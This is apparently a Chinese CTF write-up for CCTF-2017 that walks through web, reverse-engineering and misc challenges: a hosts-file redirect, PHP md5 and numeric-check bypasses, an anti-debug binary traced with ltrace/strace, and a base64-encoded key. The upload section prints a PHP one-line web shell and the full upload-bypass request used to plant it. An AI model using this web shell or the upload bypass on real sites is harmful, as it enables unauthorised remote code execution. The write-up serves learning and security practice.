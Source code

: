 # CCTF-2017(纪念众大佬指导我，第一次打CTF这么欢乐)
## 签到题目(50 分)
http://116.62.63.190/01b2962787ccc75f/web1/

在burp中 Ctrl+R看到一个302，然后有两个IP地址，然后修改`/etc/hosts`加上
```
110.80.134.152 www.nsfocus.com
121.195.115.82 www.nsfocus.com
```
即可得到
```
HTTP/1.1 302 Found
Date: Thu, 20 Jul 2017 15:46:46 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://www.nsfocus.com
Content-Length: 42
Connection: close
Content-Type: text/html; charset=UTF-8


flag{660b7b8c06e3150d174a3ec9fcd7ab9d}
```

## 3(150 分)
http://116.62.63.190/82d66810aa826365/web3/

![](img/Screenshot_2017-07-20_上午11.50.50.png)
开始还用万能密码`'or 1=1`测试各个字段，然后发现都没有注入，后来大佬提示我说，看源码啊，对啊，傻逼啊。
看源码发现，
![](img/Screenshot_2017-07-20_上午11.35.40.png)
大概意思是，`login`字段必须有，然后`user`字段不用管，然后`name`和`password`字段的值必须有，但是不能相等。然后但是他们的md5必须相等。然后大佬提示我说，看之前发的文章啊，用数组就可以绕过。于是`name[]=1&password[]=1`，然后看到后面的`is_numeric($_POST['id'])`说明`id`参数必须是一个数字，然后`$_POST['id']!==72`然后preg_match('/\s/', $_POST['id'])说明，这个id的值里面不能含有空字符。然后进入里面的if判断，又有`if($_POST['id'==72])`才行。我们想啊想，怎么绕过呢，大佬们先用python试了试8进制`oct(72)`和16进制`hex(72)`都不行，然后后来听一个大佬说，加0吧，改成`072`然后成功绕过。
![](img/Screenshot_2017-07-20_上午11.29.54.png)
## 4(300 分)
http://116.62.63.190/85e34e2e3319ab7d/web4/
这是一道上传题。又是大神坐我旁边指导我。
首先要解决的问题是要能上传文本，然后各种改文件名，后来用的`双文件上传`
搜php的webshell变形，发现这个地址
https://github.com/tennc/webshell/blob/master/caidao-shell/%E5%BC%BA%E6%82%8D.php
用
```
<script language="php">@eval_r($_POST[sb])</script>
//绕过<?限制的一句话
```
成功绕过
完整请求如下：
```
POST /85e34e2e3319ab7d/web4/ HTTP/1.1
Host: 116.62.63.190
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: multipart/form-data; boundary=---------------------------605564244793245775503259849
Content-Length: 681
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------605564244793245775503259849
Content-Disposition: form-data; name="file"; filename="abcaa.php .p;a.php"
Content-Type: image/jpeg

< phpinfo();
-----------------------------605564244793245775503259849--
Content-Type: multipart/form-data; boundary=---------------------------605564244793245775503259849
Content-Length: 243
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------605564244793245775503259849
Content-Disposition: form-data; name="file"; filename="suowqiqwea.php.a"
Content-Type: image/jpeg

<script language="php">@eval_r($_POST[sb])</script>
-----------------------------605564244793245775503259849--
```
这里还看大佬使用了`0x00`截断，
然后响应为：
![](img/Screenshot_2017-07-21_上午12.23.38.png)
上传成功之后，打开这个页面，即可得到flag。
`116.62.63.190/85e34e2e3319ab7d/web4/upload/suowqiqwea.php.a`
![](img/Screenshot_2017-07-20_上午11.29.54.png)


# RE
## 我也不知道哈哈(80 分)
我靠！扔到kali里面ltrace/strace一下就崩了。vmware就崩了，耗尽CPU?
![](img/Screenshot_2017-07-21_上午1.04.03.png)
用ltrace
```
root@kali:~/test/bin# ltrace ./re.bbc3f25e1874c67da76b458ed71b3b1a
__libc_start_main(0x400a0e, 1, 0x7ffead5992a8, 0x400aa0 <unfinished ...>
readlink(0x400b24, 0x7ffead598f60, 512, 0)                      = 50
ptrace(0, 0, 1, 0)                                              = -1
remove("/root/test/bin/re.bbc3f25e1874c6"...)                   = 0
system("halt"Connection to 192.168.170.144 closed by remote host.
Connection to 192.168.170.144 closed.
```
用strace呢
```
root@kali:~/test/bin# strace ./re.bbc3f25e1874c67da76b458ed71b3b1a
execve("./re.bbc3f25e1874c67da76b458ed71b3b1a", ["./re.bbc3f25e1874c67da76b458ed71"...], [/* 20 vars */]) = 0
brk(NULL)                               = 0xe8b000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap(NULL, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f7066f6e000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=127208, ...}) = 0
mmap(NULL, 127208, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7f7066f4e000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\320\3\2\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1685264, ...}) = 0
mmap(NULL, 3791264, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7f70669b0000
mprotect(0x7f7066b45000, 2093056, PROT_NONE) = 0
mmap(0x7f7066d44000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x194000) = 0x7f7066d44000
mmap(0x7f7066d4a000, 14752, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7f7066d4a000
close(3)                                = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f7066f4c000
arch_prctl(ARCH_SET_FS, 0x7f7066f4c700) = 0
mprotect(0x7f7066d44000, 16384, PROT_READ) = 0
mprotect(0x600000, 4096, PROT_READ)     = 0
mprotect(0x7f7066f71000, 4096, PROT_READ) = 0
munmap(0x7f7066f4e000, 127208)          = 0
readlink("/proc/self/exe", "/root/test/bin/re.bbc3f25e1874c6"..., 512) = 50
ptrace(PTRACE_TRACEME)                  = -1 EPERM (Operation not permitted)
unlink("/root/test/bin/re.bbc3f25e1874c67da76b458ed71b3b1a") = 0
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f70669e3040}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f70669e3040}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0x7ffe16fe33dc) = 1287
wait4(1287, Connection to 192.168.170.144 closed by remote host.
Connection to 192.168.170.144 closed.
```
然鹅，扔到hopper里面string就出来了
![](img/Screenshot_2017-07-21_上午1.17.09.png)


# MISC
```
[master][~/CTF/CCTF-2017/MISC]$ strings -n 10 kungfu.rar                                       [1:38:30]
LEd}#2)!3e
\Z_/cOa]Wq
LaFHL"S;wc
YyBxf8\f"(
7P3y]~|LQK
5rr5z.1U-z
cPUS%"N1vQK
ZkI,X6q]hS
x||,Czyyy}}
dAof&N0^#'
key is VF95c0s5XzVyaGtfX3VGTXR9M0Vse251QEUg
[master][~/CTF/CCTF-2017/MISC]$ echo "VF95c0s5XzVyaGtfX3VGTXR9M0Vse251QEUg"|base64 -D          [1:38:39]
T_ysK9_5rhk__uFMt}3El{nu@E %                                                                             [master][~/CTF/CCTF-2017/MISC]$
```
